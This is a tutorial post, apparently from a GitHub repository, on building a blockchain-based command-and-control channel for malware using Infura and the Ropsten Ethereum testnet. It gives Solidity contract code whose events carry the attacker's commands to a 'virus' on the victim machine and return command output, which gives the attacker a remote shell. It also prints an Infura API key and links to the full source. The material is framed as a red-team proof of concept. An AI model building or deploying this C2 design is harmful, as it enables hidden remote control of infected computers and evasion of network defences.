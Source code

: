 # PART 5 - Series of Creating Blockchain based C2

**Links Which would be necessary for this Section of series**

* [Infura](https://infura.io/)

## Replacing Ganache-cli with Infura API

We will be replacing the `ganache-cli` with infura as it is a api service which let's us interact with the blockchain without making our own node.

The link for infura is pasted above sign up and get a key which would look like this

```
ropsten.infura.io/v3/55eb8175a7474f397ce9f23346f0ac32
```

Now as we will be using the websockets we have to add one more thing to this api which is `/ws/` 

so final api would look like 

```
ropsten.infura.io/ws/v3/55eb8175a7474f397ce9f23346f0ac32
```

As well as one more change that if you remember we have to use  `ws` with ganache but in this we will be using `wss`.

So the contract object would now look like this

```python
infura_key="wss://ropsten.infura.io/v3/55eb8175a7474f397ce9f23346f0ac32"
web3 = Web3(Web3.HTTPProvider(infura_key))
```

## Replacing Ganache cli Blockchain with Ropsten 

Ropsten is basically a public test server for ethereum platform where developers build their Dapps and test them also users can generate a ETH wallet and can get 1 ETH at this [site]([https://faucet.ropsten.be](https://faucet.ropsten.be/))

The api to get a new wallet is :-

```python
wallet_address_obj = web3.eth.account.create()
```

This will create an object of wallet which has everything like wallet_key and private key,etc.

## Solidity C2 handler

We have created a solidity handler let us understand it...

```
pragma solidity >=0.4.0 <0.6.0;

contract c2 {
    
    
    address owner;
    event forvictim(string  command);
    
    event forattacker(string command);
    
    constructor() public c2(){
        
        owner=msg.sender;
        
    }
    
    function tovictim(string memory _command) public {
        if (owner==msg.sender){
          emit forvictim(_command);  
        }
        
    }
    
    function toattacker(string memory _response) public{
        
        if (owner==msg.sender){
            
            emit forattacker(_response);
        }
    }
    
    
    
}
```

Things to note here:-

* **msg.sender** :- This command will give the address of the wallet who is currently in transact with the contract
* **forvictim event** :- This event will be used by attacker to supply any command which he/she want to execute and it will send a `_command` type of variable 
* **forattacker event** :- This event will be used by victim to supply the output of the command which was sent by the attacker and it will send the output in `_response` variable

We have used `_command` and `_response` in order to let our virus or handler know which type of event it shall receive and work on for ex:- 

Both of the programs(virus and handler) will have same listener so we have to distinguish the them both so that handler only shows whatever there is in `_response` variable and virus should only process whatever in the `_command` variable 

![](eventlistener.png)

As we can see:-

 1) when the virus started it will send `started` in `_response` so that our handler will know we are connected to the computer and it will give us our reverse shell

 2) When we executed the command `id` it went in `_command` keyword after which the output was sent in `_response` variable so that our handler will catch it.



*Note :- We also have implemented a security type feature which will make sure that only the wallet address who created this contract could interact with the functions*

By using the `owner` variable when constructor was called it will store the wallet address and later use it whenever someone calls the functions

**Now by using the functions handling in web3 we can directly trigger those events so now it's time to test on real ethereum**

## Demo Time

 [![Demo](http://img.youtube.com/vi/Sd03BdxZFvU/0.jpg)](http://www.youtube.com/watch?v=Sd03BdxZFvU "Blockchain C2")

Typically it would take upto 1-2 min for a transaction to be mined that is why i have shown this video with 4x speed.

The Full source code can be found here :- [https://github.com/geek-repo/C2-Blockchain](https://github.com/geek-repo/C2-Blockchain)

*Note:- Do not use this on real server unless you set up any kind of encryption before sending data on blockchain because anyone with wallet address can get all the data fetched and commands executed*

That was it Guys i hope you all would like this interesting poc as well as 

Huge thanks to [https://www.mdsec.co.uk/2019/01/activebreach-powered-by-the-blockchain/](https://www.mdsec.co.uk/2019/01/activebreach-powered-by-the-blockchain/)

This article motivated me to do this on python.

Stay tuned for more interesting articles guys :)

